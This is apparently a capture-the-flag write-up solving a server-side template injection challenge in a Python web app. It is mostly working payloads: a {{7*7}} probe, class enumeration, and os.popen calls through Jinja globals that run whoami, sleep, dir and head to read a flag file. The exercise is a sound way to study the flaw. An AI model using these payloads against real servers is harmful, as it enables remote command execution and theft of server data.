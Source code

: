 this is SSTI, so we can first figure out if the site is vulnerable to SSTI by inputting 

```
{{7*7}}
```

if it return 49, then it is vulnerable. inputting the following will get us a list of python classes available to us

```
{{self.__class__.__mro__[1].__subclasses__()}}
```

and this command tells us which user we are logged in as in the shell

```
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

the above should allow us to do more devious things, lets do `sleep 5`

```
{{config.__class__.__init__.__globals__['os'].popen('sleep 5').read()}}
```

no way it worked! okay lets get the flag. We can see the server's directory with this command

```
{{config.__class__.__init__.__globals__['os'].popen('dir').read()}}
```

this returns:

```
__pycache__ app.py flag requirements.txt
```

now we input:

```
{{config.__class__.__init__.__globals__['os'].popen('head flag').read()}}
```

and we got the flag.